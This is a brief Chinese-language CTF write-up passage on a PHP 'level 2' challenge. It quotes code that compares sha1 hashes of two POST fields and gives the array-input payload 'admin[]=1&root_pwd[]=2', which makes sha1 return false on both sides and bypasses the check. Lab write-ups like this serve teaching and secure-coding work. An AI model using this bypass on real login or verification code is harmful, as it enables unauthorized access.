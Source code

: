 ![30-1.png](30-1.png)

接下来看 level 2:

```php
if (isset($_POST['admin']) and isset($_POST['root_pwd'])) {
            if ($_POST['admin'] == $_POST['root_pwd'])
                echo '<p>The level 2 can not pass!</p>';
        // START FORM PROCESSING    
            else if (sha1($_POST['admin']) === sha1($_POST['root_pwd'])){
                echo "here is level 3,do you kown how to overcome it?"; 
                ...
            }
}
```

经典的两变量不等, 但是哈希强相等, 可以传两个不同的数组进去来通过第一个检测, 又因为 sha1 函数对数组输入会返回警告值 false, `false = false` 会绕过第二层:

```
(POST)
admin[]=1&root_pwd[]=2
```
